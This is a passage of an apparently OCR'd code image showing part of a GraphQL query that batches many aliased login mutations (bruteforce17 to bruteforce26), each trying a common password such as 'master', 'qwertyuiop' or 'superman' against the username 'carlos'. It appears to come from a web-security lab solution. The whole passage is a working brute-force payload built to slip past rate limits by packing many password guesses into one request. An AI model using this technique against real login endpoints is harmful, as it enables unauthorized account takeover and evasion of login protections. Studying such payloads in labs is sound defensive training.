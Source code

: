 ```bash
        token
        success
    }


bruteforce17:login(input:{password: "master", username: "carlos"}) {
        token
        success
    }


bruteforce18:login(input:{password: "666666", username: "carlos"}) {
        token
        success
    }


bruteforce19:login(input:{password: "qwertyuiop", username: "carlos"}) {
        token
        success
    }


bruteforce20:login(input:{password: "123321", username: "carlos"}) {
        token
        success
    }


bruteforce21:login(input:{password: "mustang", username: "carlos"}) {
        token
        success
    }


bruteforce22:login(input:{password: "1234567890", username: "carlos"}) {
        token
        success
    }


bruteforce23:login(input:{password: "michael", username: "carlos"}) {
        token
        success
    }


bruteforce24:login(input:{password: "654321", username: "carlos"}) {
        token
        success
    }


bruteforce25:login(input:{password: "superman", username: "carlos"}) {
        token
        success
    }


bruteforce26:login(input:{password: "1qaz2wsx", username: "carlos"}) {
        token
        success
    }
```